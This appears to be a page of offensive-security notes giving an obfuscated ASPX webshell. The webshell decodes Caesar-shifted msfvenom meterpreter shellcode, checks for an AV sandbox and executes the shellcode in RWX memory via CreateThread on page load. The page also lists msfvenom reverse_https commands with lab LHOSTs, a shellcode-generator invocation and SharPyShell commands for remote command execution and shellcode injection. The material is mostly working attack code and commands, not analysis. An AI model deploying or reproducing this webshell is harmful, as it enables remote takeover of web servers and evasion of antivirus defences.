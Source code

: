 #### ObfuscatedWebshell.aspx

    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f aspx -o /tmp/met.aspx
    //then use CaesarHelper.exe to encode the shellcode portion and replace here (w/ length):

    <%@ Page Language="C#" AutoEventWireup="true" %>
    <%@ Import Namespace="System.IO" %>
    <script runat="server">
        private static Int32 MEM_COMMIT=0x1000;
        private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

        [System.Runtime.InteropServices.DllImport("kernel32")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

        [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        [System.Runtime.InteropServices.DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentProcess();

        protected void Page_Load(object sender, EventArgs e)
        {
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if(mem == null)
            {
                return;
            }
            //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f aspx -o /tmp/met.aspx
            //then use CaesarHelper to encode shellcode
            byte[] dF1YBfjQ = new byte[684] {0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02, 0x02, 0x02, 0x43, 0x53, 0x43, 0x52, 0x54, 0x4a, 0x33, 0xd4, 0x53, 0x67, 0x4a, 0x8d, 0x54, 0x62, 0x58, 0x4a, 0x8d, 0x54, 0x1a, 0x4a, 0x8d, 0x54, 0x22, 0x4f, 0x33, 0xcb, 0x4a, 0x11, 0xb9, 0x4c, 0x4c, ...................................................................


            for(int i = 0; i < dF1YBfjQ.Length; i++)
            {
                dF1YBfjQ[i] = (byte)(((uint)dF1YBfjQ[i] - 2) & 0xFF);
            }

            IntPtr gF2p__4 = VirtualAlloc(IntPtr.Zero,(UIntPtr)dF1YBfjQ.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            System.Runtime.InteropServices.Marshal.Copy(dF1YBfjQ,0,gF2p__4,dF1YBfjQ.Length);
            IntPtr jn8rwz6JN = IntPtr.Zero;
            IntPtr jqnMhJu = CreateThread(IntPtr.Zero,UIntPtr.Zero,gF2p__4,IntPtr.Zero,0,ref jn8rwz6JN);
        }
    </script>

#### Another Method - aspx_shellcode_generator.py
    
- `python3 aspx_shellcode_generator.py --LHOST 192.168.49.121 --LPORT 443`

#### Another Method - SharPyShell

    python3 SharPyShell.py generate -p "abc123"
    python3 SharPyShell.py interact -u 'http://192.168.189.132/upload/sharpyshell.aspx' -p 'abc123'
    #exec_cmd whoami /all
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw -o /tmp/sc_raw
    #inject_shellcode /tmp/sc_raw